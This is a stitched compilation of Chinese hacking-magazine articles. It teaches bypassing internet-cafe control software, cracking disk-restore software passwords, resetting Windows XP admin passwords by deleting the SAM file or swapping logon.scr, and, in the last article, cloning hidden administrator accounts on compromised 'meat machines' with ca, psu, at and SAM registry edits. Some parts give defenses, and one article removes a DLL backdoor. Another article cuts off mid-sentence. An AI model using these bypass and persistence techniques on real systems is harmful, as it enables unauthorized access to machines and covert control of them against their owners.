  进入 Windows 并非只有一条途径，用户可以根据不同的需要选择不同的模式进入。在开机后，用 F8 键，就会出现 Windows 开始菜单。里面有正常模式、安全模式、MS-DOS 模式等多种供用户选择的模式。从这里进入安全模式或 MS-DOS 模式都可以对网吧管理软件造成致命的打击。在安全模式中，Windows 只运行一些最基础的系统程序，我们可以轻松地将网吧管理软件删除去。在 MS-DOS 模式中，我们可以用删除命令将网吧管理软件除去，例如：`c:\deltree octopus`。这两款软件的作者们其实也考虑到了这点，在这两款软件中都有“开机屏蔽 F4、F5、F6、F8”这个功能；如果开启这项功能，以后用户就不能通过这些键来进入 Windows 开始菜单（其实这样也有漏洞，破解方法见下）。

- **3. 修改 MSDOS.SYS 文件**

  MSDOS.SYS 是重要的系统文件，它里面含有 Windows 在启动时所要处理的一些信息，我们可以把它进行修改，以达到我们所需的目的。由于该文件是只读的系统文件，所以我们要在“文件夹选项”中选“查看所有文件”，并且去掉其只读属性，然后就可以对它进行修改了。

  关闭屏蔽 F4、F5、F6、F8 键：
  “美萍”及“万象幻境”都有在启动时屏蔽这几个键的功能，实际在没有网吧管理软件的情况下，我们也能在启动时将这几个键屏蔽掉。换句话说，我们能够将网吧管理软件对这几个键的屏蔽作用撤消。具体方法是：用记事本打开该文件，在 `[option]` 后找到“BootKeys=0”，将 0 改为 1。在 BootKeys=1 时 F4、F5、F6、F8 键在启动时能够使用。修改完后，保存结果即可。

  关于开机时，直接启动到 DOS 界面。
  用上述方法将 MS-DOS.SYS 打开后，在 `[option]` 后找“BootGUI=1”，将 1 改为 0。在 BootGUI=1 时，启动后，系统直接到 Windows 图形界面；在 BootGUI=0 时，系统启动时，直接到 DOS 界面。这里要注意的是：以后每次启动系统时，系统都直接要到 DOS 界面，所以用户需要在 Windows 文件夹下运行 win.exe 程序才能进入 Windows。

- **4. 安装新网吧管理软件**

  由于“美萍”与“万象幻境”是同类性质的软件，在功能上有很大部分内容交叉，我们就可以给它来个自己人打自己人。从网上下载新的网吧管理软件，安装好后，就可以用下载的网吧管理软件将原有网吧管理软件的防卫措施一层层剥去，再通过其他手段将其拆除。

  防御：可以设置网吧管理软件禁止下载可执行程序，虽然使用这招可能会招来很多人的反对，但出于生计，我看还是用上比较好。

- **5. MSCONFIG**

  用系统配置程序来禁止某程序的自运行，很多朋友都用过。具体方法是：找到 MSCONFIG.EXE 并运行，点击“启动”，那么下次开机后，网吧管理软件就不会自动运行了。这里要注意的一点是：“万象幻境”除了要将系统配置程序作修改外，还要将注册表里相应的子键给删除，只有两者都作修改后，它才不会自动运行；“美萍”则单独修改系统配置程序即可。

  防御：较新版本的“美萍”添加了一个比较强大的功能，管理员可以自定义禁止运行某程序。只要管理员将所要禁止运行的程序名添加到系统设置内，以后用户运行该程序时，系统就会立即将它关闭。这里要注意的一点是：只要软件的标题栏里含有“系统配置”字样，哪怕是一个网页标题含有这几个字，系统都会统统关闭。所以，自定义时要有针对性，范围不能过大。

- **6. 其他工具**

  网吧管理类软件的部分功能是通过对注册表的修改来达到目的。比如说：隐藏硬盘、禁止使用“运行”、禁止使用“注册表编辑器”等。现在业内流行的许多系统管理软件不仅也有上述功能，而且还具有一些网吧管理软件没有的功能，所以用这些软件来辅助网吧管理，会有意想不到的效果。同样，如果这些软件的使用权是在一些不良用户的手上，结果也可能是意想不到哦。这里只说两个：一个是超级兔子魔法设置，另一个是 Windows 优化大师。

### 二、解除硬盘锁定

- **1. 用下载的方法**

  这个方法虽然不算方便、直接，但我也有必要说一下：运行 IE 后，在网页上任意找一个链接下载（越小越好）。下载完毕后，会出现一提示框，上有“打开文件夹”按钮，对，我们要的就是它，那后面的事就无需我多言了吧……

  防御：在网关设置程序里，选用“禁用收藏夹菜单”保存之后，再用此方法，就会出现“EXPLORE非法操作”。

- **2. 通过 IE 查看文件夹**

  这种方法非常直接有效。首先打开一个 IE 窗口，拉出“查看”下拉菜单，选择“浏览器”中的“文件夹”选项。这时，主窗口左侧出现一类是资源管理器的窗口，内有“我的电脑”树型目录结构（图1）。

  
  

  用户可以根据自己的需要一层层地展开，寻找自己所需的东西。在这个问题上，万象幻境处理得比较好，在打开文件夹后，用户只能看到桌面，若想访问其他的文件夹，系统则会跳到 Internet Explorer 上，所以我们要动点脑筋了：现将硬盘设置成完全共享（这是完全能办到的），再通过网上邻居来访问自己的电脑，这和直接访问自己电脑的硬盘没有什么区别。到这里，有朋友可能要问：要是驱动器被隐藏起来怎么办？没关系，是靠修改注册表来达到隐藏驱动器的目的的，我们只要用导入方法把注册表改回来就可以了。

  现在来讲另一种打开隐藏驱动器的方法。按着开始的步骤，拉出“文件”下拉菜单，选择“打开”，点击“浏览”，此时弹出的对话框内仍看不到隐藏了的驱动器。然后在“文件名”内输入想要打开的隐藏驱动器名，比如：“c:\”（注意：一定要有斜线），选择所有文件，再回车，C 盘就完完全全地展现在我们面前了，现在我们可以进行文件的移动、复制、粘贴等操作了。

  防御：这种方法很实用，我暂时还没有找到有效的对付办法。

- **3. Internet 属性**

  这也是个老方法了。还是先打开一个 IE 窗口，拉出“工具”下拉菜单，选择“Internet 选项”，再依次点击“设置”、“查看文件”或“查看对象”，将弹出的文件夹一直向上就行了。

  防御：在“万象幻境”中，为“Internet 属性”设置一个密码就可以了；在“美萍”中，将“Internet 属性”添加到禁止运行里就可以了。

- **4. 快捷方式**

  使用快捷方式打开隐藏驱动器，可能很多朋友容易疏忽一点。我用的是 Windows 文件夹的快捷方式，比如：tencent 文件夹、C 盘等。我们事先要做好快捷方式，再保存到 E-mail 附件里，或是网络硬盘里备用。这里有两种使用的方法：一是直接运行法，就是下载后直接运行；再是查看目标法，这个方法要相对繁琐一点。将快捷方式下载来后，查看它的属性，再点击“查找目标”一键，然后就会弹出与快捷方式相对应的文件夹。

  防御：这种方法简单实用，让人防不胜防，我暂时也没有研究出来对策。

- **5. 计划任务**

  用户能够用这种方法解除网吧管理软件对硬盘的锁定，算是管理员的一大失误了。用户只要双击“计划任务”图标，将弹出的文件夹一直向上就行了。

  防御：在“高级”下拉菜单里，选择“终止使用计划任务程序”即可。

- **6. 其他工具**

  这里介绍两个能解除硬盘锁定的软件：

  - **1. Winzip**

    Winzip 是现行非常流行的压缩软件。用户可以用 E-mail 附件的方法保存空白的 Winzip 文件，再运行当前计算机内任一压缩文件。解压后，就弹出默认的 `c:\unzipped` 文件夹。

    防御：此方法对“万象幻境”好像不太灵，但对“美萍”有作用。“美萍”可以设置禁止运行“unzipped文件夹”，但解压缩的文件夹用户可以任选；若是禁止运行 Winzip，那恐怕会引来更多的反对声，除此之外，我还没有两全其美的办法。

  - **2. ACDSee**

    该软件自带有一个图像浏览器 ACDSee Browser，利用它，我们会有许多惊奇的发现。打开该文件（“美萍”默认的主菜单上就有该程序），会发现它的界面与 Windows 资源管理器很相似（如果不能直接打开，就任找一个图像文件双击打开，再双击图像就行了）。桌上窗口有 Windows 树型目录结构，右边主窗口为打开文件夹的内容，包括具有隐藏属性的文件，这下，里面所有的文件都曝光了。我们可以将“我的电脑”一层层展开，如果管理员隐藏有驱动器怎么办？没关系，点击“收藏”图表，拉出下拉菜单，里面有各个驱动器的图标，需要哪个单击就行了。左右边照样可以进行文件的粘贴、删除等操作，使用起来比资源管理器还好，但美中不足的是，不能查看文件的属性（图3、图4）。

    
    

    改回来，就能取消网关的限制。这里我们用导入的方法进行修改。先打开一个记事本，在上面输入欲改的子键、键值；然后保存为 .reg 文件或保存为 .txt 文件后，将扩展名改为 .reg，再执行该文件即可。下面是一些常用的设置：

    - **1. 取消“禁止使用注册表编辑器”**
      ```reg
      REGEDIT4
      [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
      "DisableRegistryTool"=dword:00000000
      ```
    - **2. 取消“隐藏驱动器”**
      ```reg
      [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
      "NoDrives"=dword:00000000
      ```
    - **3. 取消“隐藏运行”**
      `"NoRun"=dword:00000000`
    - **4. 取消“隐藏桌面”**
      `"NoDesktop"=dword:00000000`
    - **5. 取消“锁定桌面”**
      `"NoSaveSetting"=dword:00000000`
    - **6. 取消“隐藏收藏夹”**
      `"NoFavoritesMenu"=dword:00000000`
    - **7. 取消“禁止改变任务栏属性”**
      `"NosetTaskbar"=dword:00000000`
    - **8. 取消“禁止光盘自动运行”**
      `"NoDriveTypeAutoRun"=hex:b5,00,00,00`
    - **9. 取消“隐藏控制面板”**
      `"NoSetFolders"=dword:00000000`

    防御：我还是没有找到两全其美的办法，如果用的是“美萍”的话，我看还是拖到禁止运行菜单名中，才会安全一点。

### 三、用 Windows 注册表

使用 Windows 注册表对网吧管理软件造成的破坏是致命的，我们对网吧管理软件的设置，包括密码、使用上的限制等基本上都包含在注册表里。所以“美萍”及“万象幻境”都有禁止使用注册表编辑器的功能。由于网吧管理软件在许多功能上的禁用（包括禁用注册表编辑器）是通过对注册表的修改来达到目的的，因此我们只要将注册表修改回来，就能取消网关的限制。

上面讲的是用导入的方法来修改注册表，如果我们能直接进入注册表进行修改，那岂不是更好。因此，我们可以看到网吧管理软件在注册表上留下的足迹太多了，这是足以让他们毙命的。对于“美萍”来说，我们完全有能力使用户不能使用注册表编辑器。还是老办法，将注册表编辑器添加到禁止运行的程序里去，以后用户只要一打开注册表编辑器，系统就立即关闭它，让那些不良使用者欲哭无泪。而对于“万象幻境”来说，在这方面的保护还是比较薄弱的，希望在以后的新版本中能对这方面有所加强。

## 忘记还原精灵密码后的 6 种解决方法

文／冰点


现如今，学校或网吧中的电脑都采取了保护措施，采用硬盘保护卡就是其中的手段之一。硬盘保护卡，顾名思义，可以保护硬盘数据不被恶意修改、删除。硬盘保护卡分为软硬两种类型。硬保护卡是一块可以插在计算机的 PCI 插槽和 ISA 插槽里面的保护卡，软保护卡其实不是真正的卡，它也是一种软件，安装在计算机后，对计算机的数据资料进行保护。我们单位里用的就是软保护卡，名字叫“还原精灵”，相信许多朋友对它都很熟悉，许多网吧安装的就是该软件，我们《黑客防线》杂志也有过介绍。


在还原精灵中可以设置密码（图1），如果要修改还原精灵的设置就要知道这个密码才行，但如果管理员自己把密码给忘记了该怎么办呀？别着急，我有办法！

- **方法一：利用初始密码**

  还原卡都有默认的初始化密码，如果你压根儿就没有修改过它的默认密码的话，就简单多了，因为还原精灵的默认密码是 12345678！简单吧？

- **方法二：给还原精灵的开发公司写信索取密码**

  在安装还原精灵时会带有一个还原精灵辅助工具，即厂商提供的密码读取工具 readpwd.exe，运行它也可以得到还原精灵的加密密码，格式类似这样：`[DB][B8][5E][79][3E][3B][5E][C5][BD][B2]`，把该加密密码发送到这个信箱：info@yuanzhi.com.cn，只需一两天就可以得到软件开发商发来的密码。这样，无需任何软件，简单的几下就可以得到还原精灵的密码！反过来讲，任何人用这个方法都可以得到还原精灵的密码，包括受限制的用户！所以大家要保存好密码读取工具 readpwd.exe，将它改名隐藏或干脆删除，这样就安全多了。

- **方法三：重写主引导扇区**

  前面我们说过，还原精灵是软保护卡，它会截取系统的底层功能调用，会在硬盘的主引导区留下自己的痕迹。硬盘的主引导区存放的是系统的主引导信息、分区信息，一般说来病毒对它非常感兴趣。如果我们能先于还原精灵占有硬盘的主引导扇区（MBR），那么我们就可以对硬盘拥有最大的管理权限。换句话说，还原精灵已经被我们“干掉”了。

  依据上面的原理，用 `fdisk /mbr` 命令重写主引导扇区（“/mbr”的是 fdisk 程序的一个隐藏参数，这个参数可以重新写主引导扇区，而不改变分区表结构），然后重新启动计算机，这样还原精灵就没有了。

- **方法四：利用 16 进制文件编辑器 WinHex**

  WinHex 是一款出色的 16 进制文件编辑器，它的内存搜索编辑功能可以帮我们找回丢失的还原精灵密码。具体方法是：在还原精灵中选择“参数设置→修改密码→原来的密码”，然后随便填写一个“原来的密码”，但一定要记住这个密码，另外请注意不要点“确定”按钮。运行 16 进制文件编辑器 WinHex，点“工具”菜单中的“RAM 编辑器”，在打开的窗口中找到 Hddgmon 下的“主内存”（图2），Hddgmon 是还原精灵的进程，然后在 WinHex 中点击“搜寻→寻找文字”菜单选项，在打开的窗口中填入随便一个假密码（图3）。点“确定”之后，真正的密码就会出现在我们面前了！

  原理：我们在输入还原精灵的密码后，该软件会用其内部事先定义好的方法来计算真正的密码，与你输入的密码进行比较，这个比较的过程是在内存中进行的。由于 WinHex 具有优秀的内存编辑功能，因此，通过在内存中搜索输入的字符串来找到它们。而一般情况下，真假密码的比较离得会很近，这样我们就可以发现它们。

- **方法五：利用还原精灵密码读取软件**

  通过方法四我们不难得出结论：还原精灵存在着内存中存放明文密码的漏洞。利用该漏洞，广外女生网络小组开发了还原精灵密码读取软件，使用该软件可以轻松地得到还原精灵的密码。该软件使用方法很简单，只要打开还原精灵的“更改密码”的窗口或“检查管理员密码”的窗口，然后无需输入任何密码，只要点击该软件的“读取”按钮，就会自动从还原精灵的内存中读取密码。

- **方法六：下载安装还原精灵**

  更简单的方法，你只要先下载不同版本的还原精灵，然后在机器上重新覆盖安装该软件就行啦！系统重新安装后的密码是 12345678，这样忘记还原精灵的密码就不怕了。

  另外，如果你懂得汇编语言，还可以用 Debug 来调试冲破还原精灵的防线。最后声明一点：不要使用本文的方法进行破坏，否则后果自负。

## 四、在“美萍”里怎样使用右键

我一直搞不清楚“美萍”为什么要把右键给屏蔽掉，因为右键菜单上的命令都有快捷键可以直接使用，而且从下拉菜单中也可以直接找到。其实我们还有更简单的方法可以使用右键菜单，这算是个 BUG 吧。首先按住右键不放，再点击一下左键，这时你看见了什么？右键菜单完整整地展现在你的面前了。这和直接点击右键没什么区别，只是在看某文件、文件夹的时候需要先将该文件、文件夹激活。在需要用“打开方式”的时候，也要先将该文件激活，再按右键不放，最后按 Shift 键和点击左键。

总结：由上述漏洞及平时使用看来，在锁定硬盘上，“万象幻境”比“美萍”强一些；在自身安全上，“美萍”则比“万象幻境”要好一点。综合来讲两者各有优势，不相伯仲，但都有一个防守薄弱的问题。

我写这篇文章的初衷，是希望更多的人来关注一下网吧管理软件的发展，也希望能促使开发者更好地改进，而不是教大家来搞破坏（如有此心者请趁早收手）。亡羊补牢，未为晚矣。

## 手工删除DLL类型的特殊后门程序

很多程序的运行离不开DLL文件，木马后门程序更是和DLL文件紧密相连，在删除时被系统禁止。

那么，怎样删除这些DLL类型的文件呢？

文／李军


几天前，笔者发现了一个后门程序，并史无前例地与其奋战了一整天，收获不小，值得一“吹”。在本文的开始，笔者会先对该后门程序的起源以及运作原理做个说明，而后再阐述破解之道。

### 【动态链接程序库】

笔者先说说何谓“动态链接程序库”。所谓“动态链接程序库”，英文名称为Dynamic Linking Library，以下简称DLL，其用途在于为其他应用程序提供其本身并不具备的功能。比如，假设系统中有一DLL具备了与远端系统进行网络联接的功能，我们假设其名称为Network.dll，如果有另外一个应用程序想使用该功能，则这个程序只需在执行时与Network.dll进行动态链接（Dynamic Linking），就可以运用Network.dll的网络联接功能来实现远端联接系统。简单地说，DLL的特性是：

1. DLL本身无法自行执行，必须靠其他程序调用。
2. 在系统刚建立时（如刚装好Windows时），系统中即存在有一定数量的DLL；而某些应用程序亦会将自己所需的DLL添至系统中，导致DLL的数量随应用程序的增加而增加。

### 【后门程序的进驻流程】

相信聪明的读者在看完了笔者的上述介绍后，应该大致猜出本文介绍的后门程序的性质了吧。没错，这个后门程序正是以DLL的形式存在的。但上面也说过，DLL本身不能自行执行，那么这个后门程序是如何在系统中作怪的呢？据笔者推测，该后门程序进驻系统的流程应该是：

1. DLL文件随着某免费软件的安装而进入了Windows系统（因为笔者爱用免费软件）。
2. 该免费软件在安装时，更改了系统的设定值，使Windows的核心程序Kernel能在一开机时即启动该DLL。
3. 软件安装完成后，提示使用者“重新启动系统”，就在系统重新启动时，Windows的核心程序会在开机过程中将该DLL读入系统中并加以执行。至此，该后门程序的安装与执行已全部大功告成。

这个后门程序之所以刁钻，与后门程序本身以DLL的形式存在有关。首先，我们可在Windows系统中轻易地找出“正在执行中的程序”，但要找出“正在执行中的DLL”则很不容易（笔者是在整理文件时，偶然发现一来路不明的文件夹，这才发现了这个DLL）；其次，这个后门程序在Windows开机时就被载入，而Windows系统的特性是“不允许使用者删除正在执行的DLL”！换句话说，Windows的这个特性保护了这个后门程序，使我们删除它的难度变得很高！

### 【解决方法】

要删除DLL，首先得让Windows在开机时不启动它，方法是在“开始”→“运行”窗口中，打入：“regsvr32.exe /u DLL的名称”，并按回车。这时，Windows会出现一行英文字，提示你该DLL已被系统反注册（这里的反注册指的是Windows将该DLL移出开机所必须执行的列表，但此时这个DLL仍处于执行状态），此时重新开机，并在启动后将该DLL删除即可。

### 【后记】

上面提过，笔者与这个后门程序搏斗了一整天，原因就在于这个后门程序受到了Windows的保护，无法轻易删除。笔者在试了一天后，才找出用regsvr32.exe进行反注册的方法，也因此得以顺利地将这个后门程序移出系统。在本次搏斗中，笔者深深感受到了Windows对自身内容的严密保护，笔者曾试着想在Windows的所有文件中，找出“记录Windows开机时所必须读取的DLL列表”，结果是徒劳无功，白白浪费了两个多小时。

笔者认为，Windows之所以这么处理，一方面是帮使用者简化了必须操作的流程，让使用者在不需了解Windows系统的情况下也能操作系统；但另一方面，Windows也间接地保护了恶意侵入系统的DLL，让DLL不但不容易被察觉，而且还相当难以删除。Windows的这个特性是利是弊，就由你自行判断吧。

## Ping攻防心经


Ping作为最基础的网络命令，在入侵、检测等方面的应用极其普遍，但大多数读者仅仅了解其用法和几个参数，而不能很好地应用它。本文是一篇关于Ping命令的详细讲解，相信大家一定会有所启发。

文/NoSignal

### 什么是Ping

不论是Hacker还是Cracker，Ping命令都是十分常用的命令之一。这个命令虽然简单，但是绝对不容忽视，因为越是简单的命令蕴含的道理越多。Ping是应用了ICMP（简单网络管理协议）中的一个管理方法，其目的就是通过发送特定形式的ICMP包来请求主机的回应，进而获得主机的一些属性。

### 用Ping能做些什么

像所有的工具一样，只要我们有一个想像的空间，每个工具都有其超能的发挥。Ping最基本的功能就是通过主机是否响应ICMP包来判断主机是否在线。其他的功能还有：可以通过Ping域名来得到域名的IP地址；可以通过Ping局域网内主机名来获得它的IP地址；可以用Ping命令返回的TTL值来判断主机系统；当然还可以用Ping命令发送大量的ICMP包来阻塞对方网络。但你听说过用Ping命令来获得局域网内主机的MAC地址么？大家知道，在一般的局域网内是通过MAC来寻址的，这就需要IP和MAC的转换，而维持这样转换的对应关系的结构就是ARP表，ARP表在交换机和个人电脑上都有，只是规模大小的不同，功能和作用是相同的。根据这种原理，很自然地想到用Ping命令来Ping IP就可以在主机上的ARP表的缓存中留下对应IP的MAC地址，然后用ARP -A这样的命令就可以查到对应IP的MAC地址了，如图1所示。


图1

### Ping所带来的安全问题

可以这样讲，一次计划周密而精确的人侵是离不开Ping命令的。比如：要入侵主机名为HOST（限于局域网内）的主机，通过Ping HOSTIP来判断主机是否在线，锁定目标后进而展开更精密的攻击。所以，一台主机被Ping通是很可怕的一件事，它不仅告诉Hacker们“我”可以被访问，而且还告诉了Hacker们“我”是个新手，没有安装防火墙一类的安全措施，你可以入侵“我”。

### 如何解决Ping带来的安全问题

Ping是入侵的开始，也是被入侵的开始。许多扫描工具在扫描主机漏洞之前都要探测主机是否响应Ping，所以，很好地解决Ping的问题还可以让你的主机免受扫描工具和DDOS的“乱刀砍死”。解决Ping的问题是做好安全防范的第一步。

下面介绍Windows系统的Ping解决方案。

- 1. 防止别人通过主机名来得到自己的IP的解决方案

由于主机名对应的IP地址是基于Windows系统的NETBIOS（网络基本输入输出系统）的，所以可以通过关闭NETBIOS来解决。（介绍关闭NETBIOS的文章很多，限于篇幅，不赘述），但要注意这种方法同时也关闭了网络文件共享和打印机共享等服务。

一般用户可以采用这样的方法，但如果主机是专门用来做网络文件和打印机共享服务的主机，显然就不能用这种方法来解决了。不过可以这样做：在主机名中加一些特殊的字符，比如在主机名最后加一个全角的空格符，这样即使被人在某些地方看到了这个主机名，但他也不知道真正的主机名最后还有一个全角的空格，如果他连真正的主机名都不知道，那么也就不可能用Ping HOSTNAME -A的方法来得到我们主机的IP了。

- 2. Windows 2000\XP 拒绝Ping的回应及防止ICMP攻击的方案

不管你的电脑是个人使用还是用来做网络服务器，都应该考虑到DoS攻击。为了让主机不对Ping产生回应，从而造成主机不在线的假象，下面介绍一种不用防火墙软件而只对Windows 2000\XP自身设置，来让你的主机不对ICMP包做任何处理而直接丢弃，从而不回应Ping。

第一步：“运行”->“MMC”回车，如图2所示。


第二步：在弹出的“控制台1”中选择“文件”->“添加 / 删除管理单元（M）”。

第三步：在添加 / 删除管理单元窗口中选“添加”然后选择IP策略管理，如图3所示。


然后选择“添加”->“本地计算机”->“完成”->“关闭”->“确定”就安装上了IP安全策略管理，然后该对“IP安全策略管理单元”进行具体设置了。

第四步：在控制台里右键->创建IP安全策略，如图4。


然后“下一步”，在IP安全策略向导中为该策略起个名字（随便起，但为了以后方便，建议起成“拒绝ICMP回应”）；点“下一步”，在“安全通信请求”的“激活默认响应规则”上打勾，点“下一步”进入“默认响应规则身份验证方式”，选择最后一个选项，即“此字符串用来保护密码交换”，然后在下面的框里随便添上几个字符，如图5所示。点“下一步”后，把“编辑属性”打上勾后点击“完成”按钮进入“属性页面”；或在“控制台根节点”选中你创建的策略（我这里创建的是拒绝ICMP回应），然后鼠标右键—〉属性也可以打开“属性页面”，如图6所示。


图6

第五步：在“属性页面”里点击“添加”，点“下一步”，在“隧道终结点”窗口中选择“此规则不指定隧道”；点击“下一步”后，在“网络类型”对话框中选择“所有网络连接”；点“下一步”，在“身份验证方法”窗口中的设置与第四步中“默认响应规则身份验证方式”窗口中的设置相同（密码两个可以不同）。下一步后，进入“IP筛选列表”窗口。


图7

第五步：在“IP筛选列表”中添加IP筛选器，如图7所示。点击“添加—〉添加”进入IP筛选器向导。“下一步”后设置“目标地址”为“我的IP地址”，“源地址”为“任何IP地址”，“协议类型”为ICMP，


图8

如图8所示。

这样就安装上了ICMP过滤器。确定之后，在“IP筛选器列表”中选定新建的筛选器，如图9所示。


图9

下一步后，选择第二个选项“需要安全”，然后一路“确定”和“关闭”退到“控制台根节点”；并在“拒绝ICMP回应”上点鼠标右键，点“指派”后，如图10所示。


图10

注意：添加完策略后，必须指派后才能使策略有效。

然后把策略保存，这样就成功添加了拒绝Ping回应的策略，进而防止了ICMP攻击。

注：添加完策略后，测试的时候，自己Ping自己还是可以Ping通的，可以通过 http://www.linkwan.com/vr/ 上的VISUAL TRACE ROUTE 这个程序来测试。

以上只是小菜鸟我对Ping的总结笔记，拿来与大家共享，有纰漏之处多多指教，并希望和高手们交流，QQ：34353217

## 恢复XP管理员密码

经常有人会因为忘记Windows XP密码无法登录，以至于重新安装系统，其实完全没有必要，我们不妨先用作者提供的5种方法来找回我们的密码。


文／hibiscus

**奇招1：** 大家知道，Windows XP的密码存放在系统所在的Winnt\System32\Config下SAM文件中，SAM文件即账号密码数据库文件。当我们登录系统的时候，系统会自动地和Config中的SAM自动校对，如发现此次密码和用户名全与SAM文件中的加密数据符合时，你就会顺利登录；如果错误则无法登录。既然如此，我们的第一个方法就产生了：删除SAM文件来恢复密码。

如果你不用管本系统中包含的任意账号，而且有两个操作系统的话，可以使用另外一个能够访问NTFS的操作系统启动电脑，或者虽然没有安装两个系统，但可以使用其他工具来访问NTFS。然后删除 `C:\WINNT\system32\config` 目录下的SAM文件，重新启动。这时，管理员Administrator账号就没有密码了。当然，取下硬盘换到其他机器上来删除SAM文件也算个好办法。

> **小提示：** Windows NT/2000/XP中对用户账户的安全管理使用了安全账号管理器（Security Account Manager，SAM）的机制，安全账号管理器对账号的管理是通过安全标识进行的，安全标识在账号创建时就同时创建，一旦账号被删除，安全标识也同时被删除。安全标识是唯一的，即使是相同的用户名，在每次创建时获得的安全标识都是完全不同的。因此，一旦某个账号被删除，它的安全标识就不再存在了，即使用相同的用户名重建账号，也会被赋予不同的安全标识，不会保留原来的权限。

安全账号管理器的具体表现就是 `%SystemRoot%\system32\config\sam` 文件。SAM文件是Windows NT/2000/XP的用户账户数据库，所有用户的登录名及口令等相关信息都会保存在这个文件中。

**奇招2：** 使用Offline NT Password & Registry Editor。用该软件可以制作Linux启动盘，这个启动盘可以访问NTFS文件系统，因此可以很好地支持Windows 2000/XP。使用该软盘中的一个运行在Linux的工具Ntpasswd就可以解决问题，并且可以读取注册表并重写账号密码。使用的方法很简单，只需根据其启动后的提示一步一步做就可以了。在此，建议你使用快速模式，这样会列出用户供你选择修改哪个用户的密码。默认选择Admin组的用户，自动找到把Administrator的名字换掉的用户，十分方便。下面的网站提供免费的最新软盘镜像：`http://home.eunet.no/~pnordahl/ntpasswd/`。

**奇招3：** 使用Windows Key 5.0。该软件包含在Passware Kit 5.0中，用于恢复系统管理员的密码，运行后生成3个文件：`txtsetup.oem`、`winkey.sys`和`winkey.inf`，3个文件一共才50KB，短小精悍。把这3个文件放到任何软盘中，然后使用XP安装光盘启动电脑，启动过程中按F6键让系统安装第三方的驱动程序。此时，正是我们切入的最好时机，放入该软盘就会自动跳到Windows Key的界面。它会强行把Administrator的密码换成“12345”，如此一来何愁大事不成？呵呵！当你重新启动以后，你会被要求再次修改你的密码。软件下载地址：`http://www.lostpassword.com/windows-xp-2000-nt.htm`。

**奇招4：** 使用NTFSDOS这个可以从DOS下写NTFS分区的工具。用该软件制作一个DOS启动盘，然后到`C:\Winnt\System32`下将屏幕保护程序`logon.scr`改名，接着拷贝`command.com`到`C:\Winnt\System32`下（2000可以用`cmd.exe`），并……

## 由浅入深 解析克隆账户

克隆账户一直都是黑客入侵中一个比较重要的话题，如果你想长时间保留自己的肉机，克隆一个隐藏的账户就显得非常必要了。本文由浅入深讲述了各种账户克隆技巧，以及每种方法的利弊得失。更让大家兴奋的是，作者还为此专门做了两个动画——手把手教你克隆账户哦！


文／青野志狼

虽然现在后门的制作方法和后门工具越来越多，而且Windows 2000的pingbackdoor也已经非常流行了，但是这些毕竟是基于CMD命令提示符下的shell，用起来总觉得不舒服。如果想使用终端登录的话，还是有一个自己的账户比较好啊。而随便添加一个账户，没用两天就被删掉了，而且连肉机可能都丢掉（账户没了，不就等于管理员已经知道自己的机器被入侵了吗？但也不排除被其他同行删掉的可能性）；紧接着，出现了利用CMD的bug，使用类似panderlang$的账户，但是这还是不安全的，管理员使用net localgroup administrators就可以发现这个有管理员权限的账户或者在“计算机管理”中也可以找到，应运而生的克隆取代了上面的办法，成为主流后门账户的制作方法。我现在就由浅入深地介绍几种关于克隆账户的技巧。

### 一、使用CA克隆

使用榕哥的软件CA来克隆一个账户应该是大家使用比较广泛的方法，操作起来也非常简单，命令为：

```
bash
ca \\ip username password cloneusername clonepassword
```

其中IP是你肉机的IP，username是你所具有的管理员的账号，password为管理员的密码，cloneusername是你要克隆的一般权限的账号，clonepassword为你要克隆的账号的密码。CA的使用方法简单，并且可以远程克隆。但也有缺点：只能克隆你已经具有管理员权限的账号，而其它的账号不能克隆，举个例子；你现在已经破解到管理员Admin的密码，那你只能克隆成Admin，而不能克隆成其他的管理员（如Administrator）。

### 二、用psu调出注册表，进行手动克隆

#### 1. 克隆普通账户

用psu可以以system权限执行任何命令，当然包括调出注册表了，因为HKEY_LOCAL_MOCHINE\SAM\SAM键的内容只有system权限才能查看。我现在就用我自己的机器来做示范（大家如果也在自己的机器上测试，请先备份注册表！）。

编者注：psu，即Process Super user的缩写，它是一个用来提升到system权限的工具，注意，system权限并不等同于administrator权限哦！psu工具大家可以在随书光盘中找到。

先用psu调出注册表，在cmd中执行如下命令：（psu是一个工具）

```
bash
E:\tool>psu -p regedit -i 236
```

其中，236为我当前登录的WINLOGON的PID。其他请参考psu的帮助。

在注册表中打开到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 和 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`，Names 中为当前系统中的所有用户名，Users 中其他项为用户的 SID。系统中有几个用户的 SID 是固定的，如 Administrator 的 SID 为 `1f4`，Guest 的 SID 为 `1f5`。我们现在所拥有的一般权限账号是 panderlang，要克隆成 Administrator，panderlang 的 SID 为 `408`。

在 Users 中打开 `000001f4` 中的 F 键，把 F 中的值复制，如图 1 所示。


然后打开 `00000408` 中的 F 键，把 F 中的值选中，然后粘贴、确定，如图 2 所示。现在就可以用 panderlang 来登录了，而且权限是超级管理员权限。


#### 2. 克隆禁用账户

如果一个账户被禁用了，它还可以用来登录吗？当然可以，而且还是超级管理员权限呢！

按照上面的步骤克隆了 panderlang，然后我们再回到 CMD 命令提示符下或“计算机管理”中（以前听别人说一定要在命令提示符下，但是经过测试，两个地方都可以禁用账户和修改密码，也许是微软吧），用 `E:\tool>net user panderlang /active:no` 来禁用账户。

好了，现在我们再用 panderlang 账户登录，是不是也成功登录了啊！我们再到“计算机管理”中查看用户，账户 panderlang 是处于禁用状态的，我们用 `net user panderlang` 也得到相同的结果。我们如果把 panderlang 的后面加个“$”，那么在 `net user` 中就不会显示这个账户了，安全性又高了一些。记住，克隆完以后别忘了把注册表打开的项关闭！

用 psu 以 system 权限调出注册表，然后手动克隆的方法灵活性比较强，可以克隆任意账号，而且还可以克隆禁用账号，确实是一种好的方法（一般都会克隆已经禁用的 Guest，很少被发现）。

### 三、不使用任何工具克隆

以上的方法或多或少都需要使用到一些工具，如果我们手头上正好没有工具呢，不要怕，我们完全可以靠自己来完成克隆任务——自己动手，丰衣足食：）

用 at 命令以交互方式启动 regedt32.exe（不是 regedit.exe），在命令行下键入命令：（我机器的当前时间为上午 9：29）

```
E:\>at 9:30 /interactive regedt32.exe
```

其中，`/interactive` 是允许作业在运行时，与当时登录的用户桌面进行交互。

